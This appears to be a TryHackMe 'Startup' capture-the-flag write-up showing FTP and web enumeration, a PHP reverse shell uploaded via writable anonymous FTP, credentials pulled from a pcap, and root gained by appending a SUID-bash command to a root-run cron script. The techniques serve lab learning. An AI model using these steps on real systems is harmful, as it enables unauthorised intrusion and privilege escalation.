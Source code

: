 # Startup (THM)

- https://tryhackme.com/room/startup
- March 3, 2023
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   - anonymous login allowed
   - writable
   - important.jpg
   - notice.txt
2. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache/2.4.18 (Ubuntu)

### Enumerate FTP

- anonymous login

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

- notice.txt

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

### Enumerate HTTP

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c
```

- found `files` directory

![](images/2023-03-03-22-59-45.png)

- it is same directory as ftp

## User Access

- FTP server's anonymous login, we have full access (read/write) in ftp directory
- Let's try this

  - put php_shell.php file
  - listen with nc in local machine
  - then, send get request to `http://$IP/files/php_shell.php`

```sh
$ curl http://10.10.33.5/files/ftp/php_shell.php
```

- we get `www-data` user access

![](images/2023-03-03-23-04-31.png)

- `ls -la /`
  - incidents directory
  - recipe.txt which are www-data's

```sh
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

- in incidents, one pcapng file found
- copy to local machine and analyse with wireshark.
- from one tcp stream, found like that

![](images/2023-03-03-23-42-52.png)

- try to login with lennie with password

![](images/2023-03-03-23-45-08.png)

```sh
lennie@startup:~$ cat /home/lennie/user.txt
...


lennie@startup:~/scripts$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh


lennie@startup:/tmp$ ls -lah /home/lennie/scripts/planner.sh
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh

lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -lah /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh

```

## Root Access

- planner.sh -> run by root, that lennie cannot write
- in planner.sh, it calls /etc/print.sh, that lennie can write
- check which processes are running with pspy64

```sh
2023/03/03 17:57:01 CMD: UID=0     PID=5420   | /bin/bash /home/lennie/scripts/planner.sh
2023/03/03 17:57:01 CMD: UID=0     PID=5419   | /bin/sh -c /home/lennie/scripts/planner.sh
...
```

- found that planner.sh is running once per minute

- write to create SUID bash by root

```sh
echo "cp /etc/bash /tmp/bash; chmod +s /tmp/bash;" >> /etc/print.sh
```

- then, check at /tmp folder and found bash

```sh
/tmp/bash -p
```

- get root access

```sh
$ cat /root/root.txt
...
```

---
